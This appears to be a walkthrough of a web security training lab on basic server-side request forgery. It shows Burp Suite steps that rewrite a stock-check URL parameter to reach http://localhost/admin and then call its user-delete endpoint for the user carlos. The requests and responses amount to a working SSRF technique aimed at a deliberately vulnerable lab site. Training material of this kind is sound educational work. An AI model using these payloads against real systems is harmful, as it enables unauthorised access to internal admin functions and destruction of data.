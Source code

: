 # Lab 1: Basic SSRF against the local server

- Vulnerable feature: stock check functionality
- Goal: chang the stock check URL to access the admin interface at `http://localhost/admin` and delete the user carlos.

### Analysis
- Open Burp Suite
- Click `check stock`
```
# Request
stockApi=http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d2

# Response
851
```
- `ctrl + shift + u`: decode the url
- `ctrl + u`: encode the url
```
# Request
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=2

# change this url to localhost
stockApi=http://localhost
```
```html
<!-- Response -->
<a href="/admin">
    Admin panel
</a>
```

- Go to `/admin` directory
```
# Request
stockApi=http://localhost/admin
```
```html
<!-- Response -->
<a href="/admin/delete?username=carlos">
    Delete
</a>
```

- Delete username carlos
```
# Request
stockApi=http://localhost/admin/delete?username=carlos
```
- Click `Follow redirection` in burpsuite
- Congratulations!
